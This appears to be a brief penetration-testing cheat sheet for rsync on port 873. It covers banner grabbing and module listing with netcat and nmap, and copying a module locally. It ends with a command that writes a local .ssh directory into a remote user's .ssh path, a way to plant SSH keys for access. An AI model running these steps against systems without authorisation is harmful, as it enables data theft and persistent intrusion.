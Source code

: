 # rsync (Port 873)


## Enumeration


- Connection
```
#CONNECTION
nc -vn 127.0.0.1 873

@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info

#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished

@RSYNCD: EXIT         <--- Sever closes the connection
```

```
nmap -sV --script "rsync-list-modules" -p 873 192.168.181.126
```

- Copy from `rsync` to local
```
rsync -av rsync://192.168.181.126:873/fox ./fox
```

- Write (Upload) (Put) via rsync
```
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
